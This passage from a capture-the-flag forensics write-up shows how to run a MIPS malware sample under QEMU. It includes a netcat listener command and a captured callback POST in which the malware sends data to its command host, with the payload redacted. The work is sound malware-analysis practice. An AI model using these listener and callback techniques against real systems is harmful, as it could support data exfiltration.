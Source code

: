 Firstly let's change the entry in the `host` file so the domain name points to `127.0.0.1`, and spin up a `netcat` listener using `nc -lnvp 8817`.

In order to emulate we will need `QEMU` and we will be using the `qemu-mipsel` program:

```sh
$ qemu-mipsel ./dead_reanimated

qemu-mipsel: Could not open '/lib/ld-musl-mipsel-sf.so.1': No such file or directory
```

Since this is a dynamic binary, the linker is needed in order to link the different libraries and resolve unknown symbols. And because we have the entirety of the filesystem, we can copy the needed files into a folder called `lib`. 

Then rerun the emulator using `-L` parameter and specify the directory that **contains** the `lib` folder. `QEMU` looks for a folder called `lib`! If all goes fine, we will be seeing the request in our `netcat` window!

```sh
$ qemu-mipsel -L . ./dead_reanimated

Error loading shared library libcurl.so.4: Exec format error (needed by /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated)
Error loading shared library libgcc_s.so.1: Exec format error (needed by /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated)
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_init: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_setopt: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_cleanup: symbol not found
Error relocating /home/canopus/dev/htb-events/uni-ctf-2023/forensics/medium/htb/dead_reanimated: curl_easy_perform: symbol not found
```

After providing the linker we can see that more libraries are needed. We similarly copy the needed libraries to the `lib` folder:

```sh
$ nc -lnvp 8817
Connection from 127.0.0.1:34916
POST /callback HTTP/1.1
Host: configs.router.htb:8817
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

...REDACTED...}"^~|E⏎
```

**WARNING:** **DO NOT** copy the libraries inside your local `/lib` folder, your system's libraries have the same name and if overwritten could be a big trouble!

## Another solution
